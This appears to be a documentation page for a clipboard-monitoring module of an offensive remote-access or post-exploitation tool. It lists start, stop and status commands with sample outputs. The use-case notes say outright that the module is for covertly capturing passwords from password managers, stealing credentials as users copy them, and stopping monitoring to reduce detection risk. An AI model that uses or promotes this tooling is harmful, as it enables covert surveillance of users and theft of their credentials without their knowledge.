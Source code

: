 **Response:**

```
[+] Clipboard monitoring started. Logging to: logs/clipboard/clipboard_20251004_150230.txt
```

**Use case:**

- Start before user begins work
- Capture passwords from password managers
- Monitor document editing sessions
- Steal credentials as they're copied

---

### Stop Monitoring

```bash
clipboard_stop
```

**What happens:**

- Stops the monitoring thread
- Saves final state to log
- Returns confirmation

**Response:**

```
[+] Clipboard monitoring stopped
```

**Use case:**

- End monitoring session
- Reduce detection risk
- - Before downloading logs

---

### Get Status

```bash
clipboard_status
```

**What happens:**

- Queries current monitoring state
- Returns JSON with detailed information

**Response:**

```json
{
  "running": true,
  "log_file": "logs/clipboard/clipboard_20251004_150230.txt",
  "check_interval": 1,
  "pyperclip_available": true,
  "last_content_length": 256,
  "log_size_bytes": 2048
}
```
